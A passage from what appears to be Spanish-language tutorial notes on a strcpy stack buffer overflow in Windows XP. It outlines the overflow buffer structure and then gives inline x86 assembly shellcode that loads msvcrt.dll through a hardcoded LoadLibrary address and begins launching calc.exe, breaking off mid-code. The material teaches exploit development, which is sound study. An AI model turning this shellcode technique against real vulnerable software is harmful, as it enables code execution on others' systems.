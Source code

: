 ### Conclusión
Tras haber verificado esta vulnerabilidad, podemos usarla en un código vulnerable donde se use la función `strcpy`  y al que se le añada un buffer, compuesto por:
1. Un contenido que se desborde (`AAAABBBB···PPPPQQQQQ`).
2. Una dirección de salto a una instrucción deseada.
3. El código de ejecución de dicha instrucción deseada.

Esta parte corresponde al primer punto.


## Paso 02: crear el código que ejecutará la aplicación
Ya que `strcpy` hace uso de la librería *msvcrt.dll* y se quiere ejecutar la calculadora de [[Windows XP]] -identificada como *calc.exe*-, se usará el siguiente código en [[Lenguaje C|C]]:

```c
#include <stdio.h>
#include <windows.h>



int main () {
	
    __asm{
        ; Cargar la libreria 'msvcrt.dll'
        ; LoadLibrary("msvcrt.dll")
		
        push ebp
        mov  ebp, esp
        xor  edi, edi
        push edi
		
        sub  esp, 0Ch                   ; 12, porque son 10 lineas (pero mul.4)
		
        mov byte ptr [ebp-0Bh], 6Dh     ; m
        mov byte ptr [ebp-0Ah], 73h     ; s
        mov byte ptr [ebp-09h], 76h     ; v
        mov byte ptr [ebp-08h], 63h     ; c
        mov byte ptr [ebp-07h], 72h     ; r
        mov byte ptr [ebp-06h], 74h     ; t
        mov byte ptr [ebp-05h], 2Eh     ; .
        mov byte ptr [ebp-04h], 64h     ; d
        mov byte ptr [ebp-03h], 6Ch     ; l
        mov byte ptr [ebp-02h], 6Ch     ; l
		
        lea eax, [ebp-0Bh]              ; Ultima posicion de 'msvcrt.dll'
		
        push eax
        mov ebx,0x7c801d7b              ; Direccion de la libreria 'LoadLibrary'
        call ebx
		
		
        ; Cargar la Calculadora ('calc.exe')
        ; system(calc.exe)
		
        push ebp
        mov  ebp, esp
        xor  edi, edi
        push edi
		
        sub  esp, 08h                   ; 08, porque son 8 lineas (y ya es mul.4)
		
        mov byte ptr [ebp-09h], 63h     ; c
        mov byte ptr [ebp-08h], 61h     ; a
        mov byte ptr [ebp-07h], 6Ch     ; l
```